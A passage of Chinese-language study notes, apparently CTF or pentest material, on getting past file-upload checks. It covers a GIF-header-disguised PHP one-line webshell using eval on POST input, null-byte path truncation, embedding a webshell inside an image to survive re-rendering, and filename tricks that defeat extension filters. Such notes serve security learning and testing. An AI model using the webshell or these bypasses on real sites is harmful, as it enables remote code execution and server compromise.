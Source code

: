 | AVI (avi)，                | 41564920             |
| Adobe Acrobat (pdf)，      | 255044462D312E       |

给上传脚本加上文件头即可，php会将<?之前的内容当做html文本，不进行解释

```
GIF89a
<script language="php">
@eval($_POST['cmd']);phpinfo();
</script>
```

### 文件系统00截断

原理

**在上传的时候，当文件系统读到【0x00】时，会认为文件已经结束。**利用00截断就是利用程序员在写程序时对文件的上传路径过滤不严格，产生0x00、%00上传截断漏洞。

绕过方法

通过抓包截断将【evil.php.jpg】后面的一个【.】换成【0x00】。在上传的时候，当文件系统读到【0x00】时，会认为文件已经结束，从而将【evil.php.jpg】的内容写入到【evil.php】中，从而达到攻击的目的。


### 二次渲染绕过

感觉这个的知识点偏向文件格式分析(MISC)。在制作图片马的时候

往往是在图片后头附件一段php代码，或者是改包发送一个图片马。但是如果使用了二次渲染。我们上传的文件名称会被修改，并且文件末尾段一些冗余的信息（一句话木马）会被删除。

所以很明显，我们只需要将我们需要写入的东西塞在图片中间（虽然会使图片损坏，但是我们又不需要图片。。），用winhex或者是010editor等在文件内进行修改即可。


### 其它方式—绕过

原理

部分程序员的思维不严谨，并使用逻辑不完善的上传文件合法性检测手段，导致可以找到方式绕过其检测方式。

绕过方法

后缀名大小写绕过 用于只将小写的脚本后缀名(如php)过滤掉的场合； 例如:将Burpsuite截获的数据包中的文件名【evil.php】改为【evil.Php】
双写后缀名绕过 用于只将文件后缀名过滤掉的场合，例如"php"字符串过滤的； 例如:上传时将Burpsuite截获的数据包中文件名【evil.php】改为【evil.pphphp】，那么过滤了第一个"php"字符串"后，开头的’p’和结尾的’hp’就组合又形成了【php】。
特殊后缀名绕过 用于检测文件合法性的脚本有问题的场合； 例如:将Burpsuite截获的数据包中【evil.php】名字改为【evil.php6】，或加个空格改为【evil.php 】等。
